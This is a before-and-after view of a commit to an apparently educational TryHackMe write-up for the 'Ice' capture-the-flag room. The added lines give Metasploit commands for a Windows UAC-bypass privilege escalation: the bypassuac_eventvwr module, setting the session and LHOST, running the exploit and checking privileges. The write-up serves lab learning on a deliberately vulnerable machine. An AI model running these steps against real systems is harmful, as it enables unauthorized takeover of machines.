

Before and after one commit to RameenMughal/TryHackMeWriteups, a Markdown page: Pwn CTF/Ice.md, the part around one of its changes. Shown at 96% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Document privilege escalation process with exploit
Added detailed steps for privilege escalation using a local exploit.

```diff
--- a/Pwn CTF/Ice.md
+++ b/Pwn CTF/Ice.md
@@ -126,6 +126,49 @@ x64 under the Architecture.
 
 6. Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
 
-`exploit/windows/local/bypassuac_eventvwr`
+`exploit/windows/local/bypassuac_eventvwr`, I got this answer from the hint.
 
 <img width="845" height="215" alt="image" src="https://github.com/user-attachments/assets/ffedd5c2-cb2c-4ddd-8e64-8b5d4c30321b" />
+
+7. Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.
+
+<img width="239" height="44" alt="image" src="https://github.com/user-attachments/assets/e16af58a-d916-4aeb-9362-71ff96f310b4" />
+
+8. Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`
+
+Write command: `use exploit/windows/local/bypassuac_eventvwr`
+
+<img width="447" height="59" alt="image" src="https://github.com/user-attachments/assets/c9d2cf3a-1c17-4092-9b80-4d22aeb5284a" />
+
+9. Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`
+
+First check by `show options`, we need to set SESSION:
+
+<img width="994" height="595" alt="image" src="https://github.com/user-attachments/assets/925e408e-a487-4e1e-8180-7999c60aa2dd" />
+
+Then set the SESSION by: `set session 1`:
+
+<img width="316" height="41" alt="image" src="https://github.com/user-attachments/assets/81cb8490-79dd-4985-8d0f-172abd2659a8" />
+
+10. Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?
+
+LHOST, as we need to set it with our tun0 IP Address.
+
+11. Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`
+
+You can check your tun0 IP Address by `ifconfig`
+
+Set LHOST by: `set LHOST TUN0_IP`:
+
+<img width="742" height="81" alt="image" src="https://github.com/user-attachments/assets/46d3c15e-95ca-4531-8825-30a57e1f2096" />
+
+12. After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails.
+
+<img width="1099" height="294" alt="image" src="https://github.com/user-attachments/assets/cebae6af-7992-41df-aff6-aba777f64ddb" />
+
+13. Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`
+
+It is already selected as it opened the Meterpreter session 2.
+
+14. We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?
+
```
Also changed, not shown: other parts of Pwn CTF/Ice.md (+3 -0 lines).
